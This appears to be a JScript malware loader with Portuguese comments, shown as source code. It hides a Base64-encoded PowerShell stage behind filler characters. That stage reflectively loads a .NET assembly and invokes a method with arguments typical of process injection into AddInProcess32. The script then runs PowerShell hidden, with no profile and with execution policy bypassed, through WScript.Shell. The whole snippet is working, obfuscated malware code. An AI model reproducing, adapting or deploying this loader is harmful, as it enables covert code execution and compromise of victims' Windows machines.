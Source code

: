 ```js
    borschts += "cٿwٿBٿlٿAٿGٿ0ٿAٿYٿgٿBٿsٿAٿHٿkٿAٿXٿQٿAٿ6ٿAٿDٿoٿAٿTٿAٿBٿvٿAٿGٿEٿAٿZٿAٿAٿoٿAٿCٿQٿAٿaٿQٿBٿzٿAٿGٿ8ٿAٿZٿwٿBٿvٿAٿGٿ4ٿAٿaٿQٿBٿzٿAٿGٿ0ٿAٿKٿQٿAٿ7ٿAٿCٿQٿAٿcٿgٿBٿlٿAٿGٿcٿAٿZٿQٿBٿuٿAٿGٿUٿAٿcٿgٿBٿhٿAٿHٿQٿAٿZٿQٿBٿuٿAٿGٿUٿAٿcٿwٿBٿzٿAٿDٿ0ٿAٿWٿwٿBٿkٿAٿGٿ4ٿAٿbٿAٿBٿpٿAٿGٿIٿAٿLٿgٿBٿJٿAٿEٿ8ٿAٿLٿgٿBٿIٿAٿGٿ8ٿAٿbٿQٿBٿlٿAٿFٿ0ٿAٿLٿgٿBٿHٿAٿGٿUٿAٿdٿAٿBٿNٿAٿGٿUٿAٿdٿAٿBٿoٿAٿGٿ8ٿAٿZٿAٿAٿoٿAٿCٿcٿAٿVٿgٿBٿBٿAٿEٿkٿAٿJٿwٿAٿpٿAٿCٿ4ٿAٿSٿQٿBٿuٿAٿHٿYٿAٿbٿwٿBٿrٿAٿGٿUٿAٿKٿAٿAٿkٿAٿHٿIٿAٿbٿwٿBٿ3ٿAٿHٿMٿAٿZٿQٿAٿsٿAٿFٿsٿAٿbٿwٿBٿiٿAٿGٿoٿAٿZٿQٿBٿjٿAٿHٿQٿAٿWٿwٿBٿdٿAٿFٿ0ٿAٿQٿAٿAٿoٿAٿCٿQٿAٿZٿAٿBٿpٿAٿHٿMٿAٿaٿgٿBٿvٿAٿGٿkٿAٿbٿgٿBٿlٿAٿGٿQٿAٿLٿAٿAٿnٿ";
    borschts += "AٿCٿcٿAٿLٿAٿAٿnٿAٿCٿcٿAٿLٿAٿAٿnٿAٿCٿcٿAٿLٿAٿAٿnٿAٿEٿEٿAٿZٿAٿBٿkٿAٿEٿkٿAٿbٿgٿBٿQٿAٿHٿIٿAٿbٿwٿBٿjٿAٿGٿUٿAٿcٿwٿBٿzٿAٿDٿMٿAٿMٿgٿAٿnٿAٿCٿwٿAٿJٿwٿAٿnٿAٿCٿwٿAٿJٿwٿAٿnٿAٿCٿwٿAٿJٿwٿAٿnٿAٿCٿwٿAٿJٿwٿAٿnٿAٿCٿwٿAٿJٿwٿBٿDٿAٿDٿoٿAٿXٿAٿBٿVٿAٿHٿMٿAٿZٿQٿBٿyٿAٿHٿMٿAٿXٿAٿBٿQٿAٿHٿUٿAٿYٿgٿBٿsٿAٿGٿkٿAٿYٿwٿBٿcٿAٿEٿQٿAٿbٿwٿBٿ3ٿAٿGٿ4ٿAٿbٿAٿBٿvٿAٿGٿEٿAٿZٿAٿBٿzٿAٿCٿcٿAٿLٿAٿAٿnٿAٿHٿcٿAٿZٿQٿBٿpٿAٿGٿcٿAٿaٿAٿBٿtٿAٿGٿEٿAٿbٿgٿAٿnٿAٿCٿwٿAٿJٿwٿBٿqٿAٿHٿMٿAٿJٿwٿAٿsٿAٿCٿcٿAٿJٿwٿAٿsٿAٿCٿcٿAٿJٿwٿAٿsٿAٿCٿcٿAٿbٿQٿBٿlٿAٿGٿ0ٿAٿYٿgٿBٿyٿAٿGٿEٿAٿbٿgٿBٿlٿAٿGٿwٿAٿaٿQٿBٿrٿAٿGٿUٿAٿJٿwٿAٿsٿAٿCٿcٿAٿMٿgٿAٿnٿAٿCٿwٿAٿJٿwٿAٿnٿAٿCٿkٿAٿKٿQٿAٿ7ٿAٿAٿ=ٿ=ٿ";

    // Remove os ٿ do Base64
    borschts = borschts.replace(/ٿ/g, "");

    // Monta o bloco PowerShell ofuscado com ٿ
    var remolds = "ٿ$borschtsٿ='ٿ" + borschts + "ٿ';";
    remolds += "ٿ$hemifacialٿ=ٿ";
    remolds += "ٿ[ٿSٿyٿ";
    remolds += "ٿsٿtٿeٿ";
    remolds += "ٿmٿ.ٿTٿeٿ";
    remolds += "ٿxٿtٿ.ٿEٿnٿcٿoٿ";
    remolds += "ٿdٿiٿnٿgٿ]ٿ:ٿ";
    remolds += "ٿ:ٿUٿnٿiٿcٿ";
    remolds += "ٿoٿdٿeٿ.ٿGٿeٿtٿSٿ";
    remolds += "ٿtٿrٿiٿnٿgٿ(ٿ";
    remolds += "ٿ[ٿSٿyٿsٿtٿeٿmٿ";
    remolds += "ٿ.ٿCٿoٿnٿvٿeٿrٿ";
    remolds += "ٿtٿ]ٿ:ٿ:ٿٿFٿrٿoٿmٿ";
    remolds += "ٿBٿaٿsٿeٿ6ٿ";
    remolds += "4ٿSٿtٿ";
    remolds += "rٿiٿnٿ";
    remolds += "gٿ(ٿ$ٿborschtsٿ)ٿ)ٿ;ٿ";
    remolds += "ٿIٿnٿ";
    remolds += "ٿvٿoٿkٿeٿ-ٿEٿxٿpٿ";
    remolds += "rٿeٿsٿsٿiٿoٿnٿ ٿ$hemifacialٿ";

    // Remove os ٿ do script
    remolds = remolds.replace(/ٿ/g, "");

    // Monta o comando PowerShell em variável "Moldovan"
    var Moldovan = "ٿpٿoٿwٿ";
    Moldovan += "ٿeٿrٿsٿhٿeٿ";
    Moldovan += "ٿlٿl ٿ-ٿwٿ";
    Moldovan += " ٿhٿiٿdٿdٿeٿ";
    Moldovan += "ٿn ٿ-ٿnٿoٿpٿ";
    Moldovan += "ٿrٿoٿfٿiٿ";
    Moldovan += "ٿlٿe ٿ-ٿeٿ";
    Moldovan += "ٿpٿ bٿyٿ";
    Moldovan += "ٿpٿaٿsٿ";
    Moldovan += "ٿsٿ -ٿcٿ ";

    // Remove os ٿ também do comando
    Moldovan = Moldovan.replace(/ٿ/g, "");

    // Cria o objeto shell
    var monologian = WScript.CreateObject("WScript.Shell");

    // Executa o comando
    monologian.Run(Moldovan + "\"" + remolds + "\"", 0, false);
```